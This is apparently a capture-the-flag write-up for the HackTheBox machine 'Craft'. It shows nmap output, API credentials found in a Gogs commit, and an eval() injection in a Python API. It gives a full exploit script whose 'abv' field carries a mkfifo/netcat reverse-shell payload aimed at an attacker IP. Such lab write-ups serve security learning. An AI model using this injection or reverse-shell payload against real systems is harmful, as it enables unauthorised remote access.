




## HackTheBox Machine


### Link: https://app.hackthebox.com/machines/Craft
-------------------------------------------------------

### RECON:
+ Scan the open port in the machine:

```bash
$ nmap -sV -vv -A -T4 -p- craft.htb
PORT     STATE SERVICE  REASON  VERSION
22/tcp   open  ssh      syn-ack OpenSSH 7.4p1 Debian 10+deb9u6 (protocol 2.0)
| ssh-hostkey: 
|   2048 bd:e7:6c:22:81:7a:db:3e:c0:f0:73:1d:f3:af:77:65 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQCscULO5kzW5659eWy5BdBJWCHxBSvqKIn6TZwEdp4NG3cLJc6aVQxEUknoSoMa2RAy2CFv/IWKbFIEY33XM2PRhKTuSJd/aNrMKs0jX40q/0zpmRv4/HzLdWE33t9on739xRWgsnNI0JOaGAwa4ryubOeKo53ykP9fTgLeHvT37GthWJIzfXNA7UFXJen3T4+4xmbxA2Low8D8xAGjqVLoEgKGVy05oL+zGucd0C5LyclT0Gkxm3NCk3MLdFdPOuaVX5jlX32yKUA//Go9fN9OlGffcHkLfgTA7s+PLememC14H/r8ZLYJYByeBj2MqR6ndkQ3+OkmSjeOBPEamkqz
|   256 82:b5:f9:d1:95:3b:6d:80:0f:35:91:86:2d:b3:d7:66 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBJAzk0wAfmy1zhnnnQOEoqLN0OK0zF9VwqqwIRkG58ARwaVlwSARRf3BS7Ywo2AfjZS9EWZycsXxy3/7MwEQS1U=
|   256 28:3b:26:18:ec:df:b3:36:85:9c:27:54:8d:8c:e1:33 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIJsBTHLrhy1IfI4AeEWxjJBm9z6wm/F9mMPMUbpRt2+K
443/tcp  open  ssl/http syn-ack nginx 1.15.8
|_http-server-header: nginx/1.15.8
| ssl-cert: Subject: commonName=craft.htb/organizationName=Craft/stateOrProvinceName=NY/countryName=US
| Issuer: commonName=Craft CA/organizationName=Craft/stateOrProvinceName=New York/countryName=US/emailAddress=admin@craft.htb/localityName=Buffalo/organizationalUnitName=Craft
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2019-02-06T02:25:47
| Not valid after:  2020-06-20T02:25:47
| MD5:   0111:76e2:83c8:0f26:50e7:56e4:ce16:4766
| SHA-1: 2e11:62ef:4d2e:366f:196a:51f0:c5ca:b8ce:8592:3730
6022/tcp open  ssh      syn-ack (protocol 2.0)
| ssh-hostkey: 
|   2048 5b:cc:bf:f1:a1:8f:72:b0:c0:fb:df:a3:01:dc:a6:fb (RSA)
|_ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDU+fEcb0HbuFvUiMce89AuwclFwGQAJ/FSk+X/uPL+08lP9AzNCivAovV8Py3XEGfUhSDQeJ6Xw5aZCIZB7z/40IViSC1S1fe49lmv7TlDSFKEOZIDQIAuDP3giwyrdX0MnM5qrFtqs9lIH0D8MnGVCh3kcjG5Mh+Jb4/fcGkIpLSAyVc2Fm5PFFV0XIay5vv/SffCO1141JHFZj+Sal4t4MmlZiY1RTaAgGLsn1SshS2EYFv91rZqHmmNCk+GNVSU9txRQm3OrB+06QTsOWnYN71p6+hTe/TQjhaE53zM+/xZi7sPIq6l6evvNSMOOt9fgVQkvM2NuVutLiq6od2h
| fingerprint-strings: 
|   NULL: 
|_    SSH-2.0-Go
```

### Exploit Gogs service:
+ Access the main page `craft.htb`, we've found the `API` and Git service `Gogs`.
+ Go each page one by one, we've found some interesting things. In the page `Gogs`, we saw the repo `craft-api` with developers.
+ Looking around account of developers, we've found the commit of user `dinesh` about the bug of API:



--> We found the dinesh user's password for the API: `'dinesh', '4aUh0A8PbVJxgd'`.

+ We can use the credential to login API:



--> Get the token to login. We can use it to check later.





+ Back to the first commit, we check the source code `brew.py`:

```bash
 # make sure the ABV value is sane.
        if eval('%s > 1' % request.json['abv']):
            return "ABV must be a decimal value less than 1.0", 400
        else:
            create_brew(request.json)
            return None, 201
```

--> We've found the vulnerability in `eval()`, we can inject the payload into function to spawn reverse shell.

***Note:*** `eval()` - function evaluates the specified expression, if the expression is a legal Python statement, it will be executed:

```python
>>> eval("2 + 2")
4
>>> eval("__import__ ('os').system('whoami')")
zicco
0
```

+ Access `/craft-api/tests/test.py`, we see the source code and func `eval()` in brew.py that we will manipulate the parameter `abv` to inject the payload when execute `test.py` to create a new brew entry.
+ Download `test.py` to the attack machine and edit the file to run it:

```python
#!/usr/bin/env python

import requests
import json
import urllib3
urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)

response = requests.get('https://api.craft.htb/api/auth/login',  auth=('dinesh', '4aUh0A8PbVJxgd'), verify=False)
json_response = json.loads(response.text)
token =  json_response['token']

headers = { 'X-Craft-API-Token': token, 'Content-Type': 'application/json'  }

# make sure token is valid
response = requests.get('https://api.craft.htb/api/auth/check', headers=headers, verify=False)
print(response.text)


# create a sample brew with real ABV... should succeed.
print("Create real ABV brew")
brew_dict = {}
brew_dict['abv'] = "__import__('os').system('rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc <IP> 4444 >/tmp/f')"
brew_dict['name'] = 'bullshit'
brew_dict['brewer'] = 'bullshit'
brew_dict['style'] = 'bullshit'

json_data = json.dumps(brew_dict)
response = requests.post('https://api.craft.htb/api/brew/', headers=headers, data=json_data, verify=False)
```

***Note***: We add 
```
import urllib3 
urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)
```
to disable the error certification

+ Now run file test.py and open netcat to capture the shell:

